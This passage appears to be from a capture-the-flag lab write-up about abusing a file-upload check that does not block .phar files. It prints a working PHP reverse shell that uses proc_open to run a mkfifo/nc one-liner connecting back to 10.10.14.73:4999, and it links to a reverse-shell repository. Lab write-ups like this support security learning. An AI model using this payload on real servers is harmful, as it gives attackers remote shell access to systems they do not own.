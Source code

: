 ![file-checking.png](/Assets/Pictures/UpDown/file-checking.png)

As shown in line 65 we can see that `.phar` files are not mentioned, which is a win and line 70 shows the uploads directory, but that directory is being crypted into a md5 encryption directory, then the file is being deleted once done reading as shown in line 97.
Now let’s make a file containing some website and the php reverse shell code just at the end of the list of sites. So for a better maneuver it is better to have a long enough file of websites real or fake. we made ours up 😀

Sadly for me the reverse shell script written by pentest monkety is not working, so we needed to find another reverse shell. Here is a [link](https://github.com/Taintedtrickstr/Reverse_Shells/blob/main/PHP_Proc_Open_Reverse_Shell) to a good one since it uses proc_open.

```php
<?php
$descriptorspec = array(
   0=> array("pipe", "r"),  // stdin is a pipe that the child will read from
   1=> array("pipe", "w"),  // stdout is a pipe that the child will write to
   2=> array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);
if (is_resource($process)) {
    fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.73 4999 >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    $return_value = proc_close($process);

     echo "command returned $return_value\n";
}
?>
```
{: .nolineno }